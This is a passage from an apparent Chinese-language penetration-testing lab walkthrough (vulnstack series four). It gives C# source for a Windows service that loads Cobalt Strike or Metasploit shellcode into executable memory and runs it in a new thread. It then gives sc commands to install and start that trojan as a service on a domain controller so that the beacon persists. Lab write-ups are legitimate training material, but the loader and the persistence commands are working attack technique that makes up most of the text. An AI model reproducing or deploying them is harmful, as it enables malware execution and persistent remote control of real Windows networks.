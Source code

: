 ```c#
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);


        public Service1()
        {
            InitializeComponent();
        }

        protected override void OnStart(string[] args)
        {
            // 填写cs或msf的Shellcode
            byte[] shellcode = new byte[894] {}


            IntPtr memoryAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length,
                                                0x3000, 0x40);

            Marshal.Copy(shellcode, 0, memoryAddress, shellcode.Length);

            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, memoryAddress,
                                               IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(threadHandle, 0xFFFFFFFF);

        }

        protected override void OnStop()
        {
        }

    } 
}
```



将上述代码生成的木马上传至域控，使用如下命令创建服务并启动，域控成功上线并且没有掉线

```
sc \\WIN-ENS2VR5TR3N create "ServiceBeacon" binpath= "C:\\service.exe"
sc \\WIN-ENS2VR5TR3N description ServiceBeacon "This is Hacker Beacon"
sc \\WIN-ENS2VR5TR3N start ServiceBeacon
```

![image-20231221165859788](vulnstack靶场系列四/image-20231221165859788.png)
